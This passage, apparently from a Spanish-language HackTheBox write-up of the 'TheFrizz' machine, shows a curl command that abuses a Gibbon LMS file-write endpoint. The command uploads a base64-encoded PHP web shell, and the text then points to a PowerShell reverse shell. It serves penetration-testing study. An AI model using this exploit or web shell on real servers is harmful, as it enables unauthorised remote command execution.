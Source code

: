 ## Subiendo una shell en php

Ahora que tenemos claro que es posible una subida de archivos solo nos queda subir una shell simple en php.

El payload en cuestión es el siguiente:

```bash
❯ curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Una vez ejecutado podemos hacer una petición en `http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=<poweshell base64 reverse shell>`

Esta shell podemos crearla en [Revshells](https://www.revshells.com/)

![alt text](/assets/img/posts/theFrizz-htb-s7/image-3.png)

